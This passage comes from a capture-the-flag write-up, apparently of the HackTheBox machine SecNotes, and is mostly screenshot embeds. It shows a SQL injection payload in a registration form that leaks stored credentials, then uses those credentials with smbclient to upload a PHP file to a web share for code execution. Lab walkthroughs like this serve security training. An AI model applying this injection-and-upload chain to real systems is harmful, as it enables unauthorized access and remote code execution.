 <br />
<img src="{{ site.img_path }}/secnotes_writeup/SecNotes_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/secnotes_writeup/SecNotes_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/secnotes_writeup/SecNotes_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/secnotes_writeup/SecNotes_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/secnotes_writeup/SecNotes_21.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/secnotes_writeup/SecNotes_22.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/secnotes_writeup/SecNotes_23.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Another vector that I did not test is to use a **SQLi** in the registration form, I had tested only for the authentication panel. And if I create a new account using a simple injection I succeed to do a bypassing, this way I succeed to leak from the **Database** all the notes, including the one containing the user **tyler's** credentials. As I don't have any protocol that allows me to connect to the machine remotely, I use the credentials I just found to connect via **SMB** with `smbclient`, and now I find a shared resource (**new-site**) that I can access. I list the contents of this shared resource and they seem to be those of the web application available on port **8808**, I perform a test to load a **.php** file and confirm my suspicions when I can access the file from the web, and the most important thing is that the **PHP** code is interpreted by the server.

```bash
# http://10.10.10.97/register.php
# ' or 1=1-- -, oldboy123, oldboy123        :)

smbclient -L 10.10.10.97 -U 'tyler%92...*&'
smbclient //10.10.10.97/new-site -U 'tyler%92...*&'
  dir

nvim test.php
cat !$
smbclient //10.10.10.97/new-site -U 'tyler%92...*&'
  put test.php
  dir

# http://10.10.10.97:8808/test.php
# :)
```

<br />
<img src="{{ site.img_path }}/secnotes_writeup/SecNotes_24.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/secnotes_writeup/SecNotes_25.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/secnotes_writeup/SecNotes_26.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/secnotes_writeup/SecNotes_27.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/secnotes_writeup/SecNotes_28.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
